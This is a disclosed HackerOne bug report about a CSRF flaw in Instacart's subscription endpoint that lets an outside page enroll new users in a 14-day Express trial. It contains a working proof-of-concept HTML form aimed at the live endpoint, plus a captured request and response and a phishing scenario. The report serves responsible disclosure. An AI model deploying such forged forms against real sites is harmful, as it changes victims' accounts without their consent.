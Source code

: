 # CSRF Trial 14 days express subscription

## Report Details
- **Report ID**: 334139
- **URL**: https://hackerone.com/reports/334139
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-04-06T03:28:52.331Z
- **Disclosed**: 2019-02-27T23:39:03.244Z

## Reporter
- **Username**: tolo7010
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Description
========

When a new user has been registered, Instacart pops up a message offering the user for a limited time 14 days express trial, in which the user may decide to skip and subscribe later on decision. The research has found that the express trial subscription endpoint does not implement any protection against CSRF attack, the following list possible cases in which the endpoint may needed protection:

- The new user, may decide to skip the subscription and try the free version first for a while, and later (for example, before actual service purchase) try for 14 days express, in this case the attacker force user subscription via CSRF attack.

- The user who was CSRFed may believe that he is using the free version - consuming trial time, and missing the express features.

- The effect of CSRF vulnerability in this endpoint means that new user is subscribe for express trial automatically. Serious attacker may create a phishing site claiming that all new user will get unlimited subscription (by clicking the phishing site subscription button), the attacker may tell user to just ignore the remaining days they see, all the users will believe that because clicking the attacker site does affect they instacart account, plus the site can be trusty (e.g: premiumsecret-instacart.com), the user may provide further personal detail on attacker requests.

Reproduction
=========

1) Go to instacart.com
2) Register for a new test account, e.g: testuser1@email.com
3) After registration, you will see limited offer popup like the following image:

{F282462}

4) Click 'No thank', you will be redirected to the welcome page. also you will see reminder at the top right corner that you can get free trial later.

5) With current browser, open a new tap and go to CSRF page which is shown in the next section.
6) Clicking 'submit' responses with the following message

{F282464}

7) Refresh the instacart page, you will see message as follow:

{F282465}

CSRF Page
=======

```
<!doctype html>
<html>
<head>
</head> 
<body>
<form action="https://www.instacart.com/v3/subscriptions" method="POST">
<input type="hidden" name="free_trial" id="free_trial" value="true">
<input type="hidden" name="promo" id="promo" value="true">
<input type="hidden" name="term" id="term" value="year">
<input type="submit">
</form>
</body>
</html>
```

Sample Request/Response from Burp
=========================

Request:

```
POST /v3/subscriptions HTTP/1.1
Host: www.instacart.com
Connection: close
Content-Length: 36
Cache-Control: max-age=0
Origin: http://localhost
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost/poc/csrf/csrf-instacart.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,th;q=0.8,lo;q=0.7
Cookie: ...

free_trial=true&promo=true&term=year
```

Response:

```
HTTP/1.1 200 OK
Date: Fri, 06 Apr 2018 03:27:47 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Server: nginx
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
ETag: W/"9409a344d9975c9f6b21a4b5dba1efb9"
X-Jobs: jobs@instacart.com
Cache-Control: max-age=0, private, must-revalidate
Set-Cookie: ...
Set-Cookie: ...
Set-Cookie: ...
X-Request-Id: c2a53724-d5b2-4171-8c7a-bc01ed066571
X-Runtime: 0.224540
Vary: Origin
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Content-Length: 560

{
  "subscription": {
    "id": "3178765",
    "credit_card_id": "",
    "duration_in_days": 14,
    "attributes": [
      "current",
      "can_receive_renewal_reminder",
      "free",
      "trial"
    ],
    "autorenew": true,
    "current?": true,
    "starts_on_date": "2018-04-06T03:27:46.920Z",
    "starts_on": "April  6, 2018",
    "ends_on_date": "2018-04-20T06:59:59.999Z",
    "ends_on": "April 20, 2018",
    "trial": true,
    "send_reminder_on": "2018-04-17T06:59:59.999Z",
    "send_secondary_reminder_on": null,
    "time_remaining": "14 days",
    "next_price": "$149",
    "next_term": null,
    "term": "year",
    "term_length": "year",
    "plan_type": "trial",
    "subscription_plan_id": "1"
  }
}
```

Recommend Fix
===========

- Review how the trial subscription endpoint works, make sure it implements CSRF protection.

```
(POST) https://www.instacart.com/v3/subscriptions
```

## Impact

Attacker can force new user to subscribe 14 days express trail period

The hacker selected the **Cross-Site Request Forgery (CSRF)** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
https://www.instacart.com/v3/subscriptions

**Verified**
Yes

**Can a victim be forced to perform a sensitive state-change operation unknowningly?**
Yes

**What state-change operation can be performed?**
Trial 14 days express subscription

## Attachments
- 1.png
- 2.png
- 3.png
